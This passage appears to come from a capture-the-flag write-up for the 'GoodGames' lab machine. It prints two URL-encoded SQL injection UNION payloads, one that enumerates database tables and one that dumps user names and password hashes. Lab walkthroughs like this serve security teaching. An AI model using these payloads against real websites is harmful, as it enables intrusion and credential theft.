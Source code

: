 Let's look at the tables:

```
'+UNION+SELECT+1,2,3,group_concat(table_schema,+'%3a'+,table_name)+FROM+information_schema.tables+WHERE+table_schema+!%3d+'mysql'+AND+table_schema+!%3d+'information_schema'--+-
```

![htb_goodgames_tables.png](../assets/goodgames_assets/htb_goodgames_tables.png)

We can now see the columns:

![htb_goodgames_columns.png](../assets/goodgames_assets/htb_goodgames_columns.png)

name and password seem interesting.

We can grab those with:

```
'+UNION+SELECT+1,2,3,group_concat(name,+'%3a'+,password)+FROM+main.user+--+-
```

![htb_goodgames_hash.png](../assets/goodgames_assets/htb_goodgames_hash.png)
